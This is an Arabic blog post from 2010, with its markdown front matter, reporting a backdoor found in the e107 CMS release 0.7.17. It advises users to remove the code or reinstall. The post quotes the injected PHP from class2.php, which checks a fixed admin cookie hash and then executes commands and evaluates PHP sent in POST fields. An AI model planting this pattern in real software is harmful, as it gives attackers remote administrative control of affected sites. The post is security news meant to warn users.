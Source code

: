 ```yaml
---
author: يوغرطة بن علي (Youghourta Benali)
date: 2010-01-27T12:37:13.000Z
draft: false
title: اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107
type: post
url: >-
  /2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/
categories:
  - Open source
  - Security
  - Web
tags:
  - backdoor
  - cms
  - e107
excerpt: >-
  [**اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى
  e107**](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)


  إذا كنت من هواة أنظمة إدارة المحتوى أو ما يعرف اختصارا بـ CMS و كنت أحد
  مستعملي نظام e107 فإنه يستحسن أن تتحقق من آخر إصدار من نظام e107 حيث أن
---
```

[**اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107**](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)

إذا كنت من هواة أنظمة إدارة المحتوى أو ما يعرف اختصارا بـ CMS و كنت أحد مستعملي نظام e107 فإنه يستحسن أن تتحقق من آخر إصدار من نظام e107 حيث أن تحاليل أثبتت احتواءه على Backdoor.

[](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)

حيث نصح Bogdan Calin العامل لدى Acunetix بتجنب استعمال  الإصدار 0.7.17 التي صدرت حديثا لأنها تحوي الشيفرة التالية:

>

> if(md5($\_COOKIE\['access-admin']) == "cf1afec15669cb96f09befb7d70f8bcb") {

> ...

> if(!empty($\_POST\['cmd'])){ $out = execute($\_POST\['cmd']); }

> elseif(!empty($\_POST\['php'])){ ob_start(); eval($\_POST\['php']); $out = ob_get_contents(); ob_end_clean(); }

في الملف *class2.php* .

و هو ما يعني استعمال لـ Cookie ثابت يسهل عملية اختراق النظام و الحصول على صلاحيات المدير.

من المرجح أن سبب وجود الـ Backdoor هو تعرض أحد الخوادم التي يُحمَّل منها النظام إلى تغيير في المحتوى.

إذا كنت تستعمل هذا النظام و كنت قد نصبت هذا الإصدار، كل ما عليك هو حذف الشيفرة المبنية أعلاه من الملف المصاب، أو إعادة تحميل النظام من جديد و الذي تم تصحيح الخلل فيه.

يمكن الإطلاع على تفاصيل الثغرة من [هنا](http://lists.grok.org.uk/pipermail/full-disclosure/2010-January/072688.html) و [هنا](http://seclists.org/bugtraq/2010/Jan/217)

\-   هل تستعمل أنظمة إدارة المحتوى بصفة عامة و نظام e107 خاصة ؟

\-   هل أنت من مؤيدي أنظمة أدارة المحتوى؟ أم تفضل كتابة جميع صفحات موقعك من الصفر؟
